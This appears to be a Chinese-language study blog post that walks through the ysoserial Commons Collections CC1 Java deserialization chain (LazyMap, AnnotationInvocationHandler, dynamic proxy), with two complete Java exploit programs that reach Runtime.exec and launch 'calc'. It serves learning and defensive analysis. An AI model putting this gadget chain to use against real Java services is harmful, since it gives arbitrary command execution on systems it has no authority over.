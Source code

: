 # Java 反序列化之 CC1
<!--toc-->
这一篇还是记录一下 ysoserial 的正版 CC1，在看这篇文章之前需要先学习动态代理相关知识。
<!--more-->

## 前言

- 书说上回，我们分析了一下 CC1 链当中的 TransformMap 的反序列化攻击，今天来补充一下正版 CC1 链的攻击分析。以下是 ysoserial 的调用链图


![](https://i.imgur.com/qAoLb3k.png)


## 正版 CC1 链分析

### 1.寻找链尾的 exec 方法

- 漏洞点还是 `InvokerTransformer`

在 `InvokerTransformer` 下的 `transform` 方法，进行 find usages 操作。

> 上一篇说的是 TransformedMap 的链子，今天则是正版 CC1 链里面的 LazyMap 链子

然后发现 LazyMap 的 get（公有的） 方法调用了 `.transform` 方法

![](https://i.imgur.com/QjCJr1Q.png)


### 2.寻找链子

- 从上图也可以看到是 `factory` 调用了 transform 方法，所以现在就要去找 `factory` 是什么

![](https://i.imgur.com/3vlzCkG.png)


factory 是 LazyMap 的一个受保护的成员变量，同时 LazyMap 的 `decorate` 静态方法可以实例化一个 LazyMap 类对象，并且可以控制 factory 变量的值。

 由于 LazyMap 的构造函数作用域为 `private`，所以无法直接获取，而 `decorate` 方法里面能够 new 一个 `LazyMap` 对象，于是我们构造如下的 EXP，来证明这条链子是可行的。

```java
package org.example;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;


public class Main {

        public static void main(String[] args) throws Exception{
                Runtime runtime = Runtime.getRuntime();
                InvokerTransformer invokerTrnasformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
                HashMap<Object,Object> hashMap = new HashMap<>();
                Map decorateMap = LazyMap.decorate(hashMap,invokerTrnasformer);
                // 以下通过反射调用 LazyMap 的 get 方法，也可以直接调用 get 方法，因为这个方法是 public 的
                Class<LazyMap> lazyMapClass = LazyMap.class;
                Method lazyGetMethod = lazyMapClass.getDeclaredMethod("get",Object.class);
                lazyGetMethod.setAccessible(true);
                lazyGetMethod.invoke(decorateMap,runtime);

        }
        
        }
        
```

- 运行之后成功弹出计算器，证明目前这条链是可行的，我们继续往上走，目标是找到入口类的 `readObject` 方法

所以我们看看谁调用了 `LazyMap.get()` 

最终在 `AnnotationInvocationHandler.invoke()` 方法中找到了有一个地方调用了 `get()` 方法。 

> 过于夸张，一共有2871个结果，不知道漏洞的发现者到底是如何找到这条链的。。。如果沒有找到 AnnotationInvocationHandler 的话，可以按住 ctrl+shift+r 开启全局搜索 AnnotationInvocationHandler

![](https://i.imgur.com/47NnYHA.png)




同时这个类也非常好，它里面有 `readObject()` 方法，可以作为我们的入口类。

- 现在的关键点是在于如何触发 `AnnotationInvocationHandler.invoke()`

### 3.编写 EXP

需要触发 `invoke()` 方法，马上想到动态代理，一个类被动态代理了之后，想要通过代理调用这个类的方法，就一定会调用 `invoke()` 方法。我们去找一找能利用的地方

![](https://i.imgur.com/eOaUhEz.png)




在该类的 readObject 反序列化里面调用了 `entrySet()` 方法，也就是说，如果我们将 `memberValues` 的值改为被代理对象，当调用被代理对象的方法，那么就会跳到执行 `invoke()` 方法，最终完成整条链子的调用。

直接上我们的 EXP

```java
package org.example;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

// 正版 CC1 链最终 EXP
public class Main {

        public static void main(String[] args) throws Exception{

                Transformer[] transformers = new Transformer[]{
                        new ConstantTransformer(Runtime.class), // 构造 setValue 的可控参数
                        new InvokerTransformer("getMethod",
                                new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                        new InvokerTransformer("invoke"
                                , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
                };

                ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
                HashMap<Object, Object> hashMap = new HashMap<>();
                Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);

                // 通过反射实例化一个 AnnocationInvocationHandler 类对象
                Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
                Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
                declaredConstructor.setAccessible(true);
                InvocationHandler invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Target.class, decorateMap);

                //生成动态代理类对象
                Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader()
                        , new Class[]{Map.class}, invocationHandler);

                // 实例化一个 AnnotationInvocationHandler 类对象并进行序列化，之后反序列化时就会调用到 AnnotationInvocationHandler 类的 readObject 方法
                InvocationHandler invocationHandler1 = (InvocationHandler) declaredConstructor.newInstance(Override.class, proxyMap);

                serialize(invocationHandler1);
                unserialize("ser.bin");


        }
        public static void serialize(Object obj) throws IOException {
                ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
                oos.writeObject(obj);
        }
        public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{
                ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
                Object obj = ois.readObject();
                return obj;
        }

}

```



EXP 最后又新建了一个 InvocationHandler1 实例并将这个实例反序列化，这一步目前真的不明白
    
>再一次学习动态代理后我大概理解了 exp 的操作，反序列化后会调用 invocationHandler1 的 readObject() 方法，而 invocationHandler1 的 memberValues 传入的是一个代理类对象 proxyMap，所以在AnnotationInvocationHandler 类的 444 行调用 memberValues.entrySet() 方法时调用的是 proxyMap.entrySet() ，根据动态代理相关知识，这里会自动调用和这个 proxyMap 相关联的调用处理器的 invoke() 方法。
和 proxyMap 相关联的调用处理器是 invocationHandler，所以会调用 invocationHandler 的 invoke() 方法，而 invocationHandler 又是 AnnotationInvocationHandler 类对象，所以会调用该类的 invoke() 方法，最终在这个方法里面调用了 memberValues.get(member);
而此时的 memberValues 是 decorateMap，这样就接上了我们的链子。




1. 最后会调用到 LazyMap 的 get 方法，传入的参数值是 `entrySet`
2. 之后调用 factory.transfrom(key)，factory为 chainedTransformer，key 为 entryset
3. 上一步的 key 是 entryset ，经过 chainedTransformer 的 transform 方法转换之后 key 首先变成了 Runtime.class，之后就是变成 InvokerTransformer 命令执行所需的一系列对象，最终导致命令执行

![](https://i.imgur.com/qZC9EmE.png)




i = 0

![](https://i.imgur.com/kqblsw9.png)




i = 1

![](https://i.imgur.com/ulf204n.png)



i = 2

![](https://i.imgur.com/Iza2EO2.png)



i = 3

![](https://i.imgur.com/UHugoI4.png)


## 参考链接

[芜风师傅](https://drun1baby.github.io/2022/06/10/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8702-CC1%E9%93%BE%E8%A1%A5%E5%85%85/)

[ysoserial-CommonsCollections](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections1.java)

